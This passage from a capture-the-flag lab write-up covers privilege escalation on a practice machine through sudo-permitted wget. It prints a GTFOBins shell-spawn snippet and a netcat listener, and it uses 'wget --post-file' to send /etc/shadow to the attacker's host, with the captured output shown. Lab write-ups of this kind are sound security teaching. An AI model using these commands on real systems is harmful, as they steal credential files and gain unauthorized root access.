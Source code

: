 - So now, I found exploit on `GTFOBins` for `wget` but unfortunately it didn't worked.

  ```
  TF=$(mktemp)
  chmod +x $TF
  echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
  sudo wget --use-askpass=$TF 0
  ```
  
- Then I switched to another exploitation. Since I can get files as root, I tried downloading `/etc/shadow` to my Kali machine since I could already read `/etc/passwd` as Jessie. Start a listener and run `wget` with sudo from target machine.

  ```
  jessie@CorpOne:~$ cat /etc/shadow
  cat: /etc/shadow: Permission denied

  #Kali
  sudo nc -lnvp 4444

  #Target
  sudo wget --post-file=/etc/shadow [YOUR-THM-IP]:4444

  #Kali
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.82.183] 49910
  POST / HTTP/1.1
  User-Agent: Wget/1.17.1 (linux-gnu)
  Accept: */*
  Accept-Encoding: identity
  Host: [YOUR-THM-IP]:4444
  Connection: Keep-Alive
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 1273
  
  root:!:18195:0:99999:7:::
  daemon:*:17953:0:99999:7:::
  bin:*:17953:0:99999:7:::
  sys:*:17953:0:99999:7:::
  sync:*:17953:0:99999:7:::
  games:*:17953:0:99999:7:::
  man:*:17953:0:99999:7:::
  lp:*:17953:0:99999:7:::
  mail:*:17953:0:99999:7:::
  news:*:17953:0:99999:7:::
  uucp:*:17953:0:99999:7:::
  proxy:*:17953:0:99999:7:::
  www-data:*:17953:0:99999:7:::
  backup:*:17953:0:99999:7:::
  list:*:17953:0:99999:7:::
  irc:*:17953:0:99999:7:::
  gnats:*:17953:0:99999:7:::
  .
  .
  .
  .
  ```
